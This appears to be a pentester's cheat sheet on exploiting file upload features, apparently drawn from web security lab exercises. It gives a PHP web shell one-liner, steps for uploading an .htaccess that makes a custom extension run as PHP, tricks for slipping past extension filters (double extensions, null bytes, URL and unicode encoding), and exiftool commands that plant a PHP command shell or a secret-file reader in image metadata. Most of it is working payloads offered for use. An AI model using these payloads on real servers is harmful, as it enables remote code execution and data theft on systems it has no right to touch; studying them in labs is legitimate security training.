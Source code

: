 # File Upload

```
<?php echo system($_GET['command']); ?>
```

#### Preventing file execution in user-accessible directories <a href="#flawed-file-type-validation" id="flawed-file-type-validation"></a>

Change the name of the uploaded file with ../name to execute it in another directory

**Overriding the server configuration**

In Burp Repeater, go to the tab for the `POST /my-account/avatar` request and find the part of the body that relates to your PHP file. Make the following changes:

* Change the value of the `filename` parameter to `.htaccess`.
* Change the value of the `Content-Type` header to `text/plain`.
*   Replace the contents of the file (your PHP payload) with the following Apache directive:

    `AddType application/x-httpd-php .l33t`

    This maps an arbitrary extension (`.l33t`) to the executable MIME type `application/x-httpd-php`. As the server uses the `mod_php` module, it knows how to handle this already.

**Obfuscating file extensions**

* Provide multiple extensions. Depending on the algorithm used to parse the filename, the following file may be interpreted as either a PHP file or JPG image: `exploit.php.jpg`
* Add trailing characters. Some components will strip or ignore trailing whitespaces, dots, and suchlike: `exploit.php.`
* Try using the URL encoding (or double URL encoding) for dots, forward slashes, and backward slashes. If the value isn't decoded when validating the file extension, but is later decoded server-side, this can also allow you to upload malicious files that would otherwise be blocked: `exploit%2Ephp`
* Add semicolons or URL-encoded null byte characters before the file extension. If validation is written in a high-level language like PHP or Java, but the server processes the file using lower-level functions in C/C++, for example, this can cause discrepancies in what is treated as the end of the filename: `exploit.asp;.jpg` or `exploit.asp%00.jpg`
* Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E` if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path.

#### Flawed validation of the file's contents <a href="#flawed-validation-of-the-file-s-contents" id="flawed-validation-of-the-file-s-contents"></a>

Modify the metadata of the image to insert code

{% code overflow="wrap" %}
```
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" 3.jpg
```
{% endcode %}

{% code overflow="wrap" %}
```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```
{% endcode %}
